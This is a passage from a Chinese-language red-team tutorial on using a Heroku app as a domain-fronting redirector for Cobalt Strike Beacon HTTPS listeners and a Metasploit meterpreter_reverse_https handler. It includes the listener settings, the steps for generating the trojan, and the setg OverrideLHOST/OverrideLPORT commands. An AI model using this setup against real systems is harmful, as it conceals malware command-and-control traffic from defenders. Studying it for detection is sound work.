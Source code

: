 ![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4CjF9piabQUaUQR8LqhbeZrRBRPdOjZ3MQATvLVBA6Dgz5utrz1VR4jicRZic5wUaGW51Zfk1AgWu4A/640?wx_fmt=png)

这里主要需要的是箭头所指的两处，其中 App name 为子域名前缀的名称，这里我们可以自定义，只要没有被注册过不重复即可。

而 TARGET 处，填写为我们真实的 VPS 服务器的域名，也就是需要代理的主机域名。这里格式为:https://baidu.com:8443，代理 VPS 的 8443 端口。

填写完毕后点击 Deploy app 自动部署。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4CjF9piabQUaUQR8LqhbeZr17eo8qiakxufJcciaqCtg1aibhYOzXPJiag9paib2dwrbLYyE6OCuVUn4kQ/640?wx_fmt=png)

如上图所示即配置成功。

**第三步**

在 Cobaltstrike 中配置两个监听器，设置 PAYLOAD 为 Beacon HTTPS，HTTPS Hosts 为 sict.icu 也就是我们真实的域名，HTTPS Port 为 8443 端口。

监听器 1 如下图所示:

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4CjF9piabQUaUQR8LqhbeZr8CTSWH7icPoAJFXAkgofFa9CiaRlhTeDeDoC540rXUnAIIEUl43JPZqg/640?wx_fmt=png)

继续配置第二个监听器，同样设置 PAYLOAD 为 Beacon HTTPS，HTTPS Hosts 设置为 nancicdn.herokuapp.com，也就是之前获取到的 heroku 的域名。  
其中部署时配置的 App name 为子域名前缀，所以最终得到的 heroku 的域名就是 nancicdn.herokuapp.com。HTTPS Port 设置为 443。

监听器 2 如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4CjF9piabQUaUQR8LqhbeZr5VTguHibpEHv5d7zYwtibviaol1XZflT21xcZcicTG6ib6YNusqYIZURTDQ/640?wx_fmt=png)

监听器全部部署完毕后生成木马文件，注意生成木马的监听器设置为监听器 2，也就是指向 heroku 域名的那一个监听器。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4CjF9piabQUaUQR8LqhbeZrO6P7CK9gYO9ncsDQQFPibeODxFIg8yH8WWWM60lTl8oukkseBx9I7XA/640?wx_fmt=png)

成功上线 Cobaltstrike

*   ### **Heroku 在 Metasploit 中的应用**
    

heroku 服务的配置这里就不再赘述，直接从 Metasploit 的配置开始讲解。

**第一步**

打开 msf  
在 metasploit 中添加 handler, 配置如图：

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4CjF9piabQUaUQR8LqhbeZrv47y2F3jgnPuNJIfDZhsOMGYYMjAetFibTHgSLCU7Cf4mJQcJkEDdRw/640?wx_fmt=png)

使用模块 payload/windows/x64/meterpreter_reverse_https  
设置 LHOST 为我们实际指向的域名，LPORT 为 8443，是在 heroku 中配置的。  
然后设置三个全局参数，如下：  
setg OverrideLHOST nancicdn.herokuapp.com  
setg OverrideLPORT 443  
setg OverrideRequestHost true

OverrideLHOST 为我们 heroku 的地址，后面主域名为固定的，子域名前缀为刚才 heroku 中配置的 App name。端口为 443 因为我们配置的是 https 协议。  
参数配置完毕后，输入 to_handler 开启监听。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4CjF9piabQUaUQR8LqhbeZrh6VQwLx7fmOO1TGfgn5tficHsDSMyTU4bNFCxeuue0OUF9RRLhcpcng/640?wx_fmt=png)

